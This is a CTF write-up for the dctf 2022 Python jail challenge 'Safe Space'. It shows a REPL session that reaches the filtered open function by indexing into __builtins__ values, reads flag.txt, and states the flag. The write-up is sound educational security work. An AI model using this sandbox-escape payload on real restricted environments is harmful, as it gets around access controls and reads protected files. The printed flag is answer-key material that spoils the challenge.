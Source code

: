 ```yaml
---
title: "dctf 2022 Safe Space writeup"
description: "dctf 2022 Python Jail Problem Safe Space writeup"
date: 2022-04-18T10:41:39+08:00
tags: [dctf, ctf-writeups]
---
```


## The problem

![](https://s2.loli.net/2022/04/18/Cys8U5m2RFGEON6.png)

[link to the problem(requires login)](https://dctf.dragonsec.si/challenges#Safe%20Space-18)

## Solution

First, connect to the remote server:

```shell
nc 51.124.222.205 13379
```

After interacting with the server, you'll find that the server is a python REPL with a lot of charcters and functions such as `"` unavaliable. 
This type of problem is called [python sandbox escape](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes), or python jail.

After trying all the commands from the internet, you'll find that the command `__builtins__` is not banned for this problem.
Inside the `__builtins__` dict, 
we have FILE set to `flag.txt`, and the open function, which is also unavaliable if entered directly.

Therefore, to read the contents of flag.txt, we can use the list of vlaues in __builtins__ dict, and access it by index.
Here's the entire process: 
```python
>>>__builtins__
{'open': <built-in function open>, 'print': <built-in function print>, 'list': <class 'list'>, 'FILE': 'flag.txt'}
>>>FILE
flag.txt
>>>open(FILE).read()
Yeah no.
>>>list(__builtins__.values())[0](FILE).read()
dctf{bur5t_y0ur_bubbl3}
```

Thus, the flag is `dctf{bur5t_y0ur_bubbl3}`
